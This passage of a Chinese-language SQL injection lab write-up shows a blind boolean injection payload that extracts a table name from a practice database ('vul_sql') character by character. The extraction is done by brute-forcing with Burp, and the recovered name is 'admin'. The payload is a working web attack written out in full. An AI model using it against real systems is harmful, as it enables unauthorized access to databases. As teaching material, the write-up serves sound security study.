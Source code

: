 ![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614935559085.png)

逐个猜解5个字符 `t%' and ord(mid((select concat(table_name) from information_schema.tables where table_schema='vul_sql' limit 0,1),1,1))=97 %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614936113929.png)

还是利用 burp 来进行爆破猜解<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614936197394.png)

把爆破结果摘选出来：
> 1 > 97--a
> 2 > 100--d
> 3 > 109--m
> 4 > 105--i
> 5 > 110--n
> 第一个表名为：admin
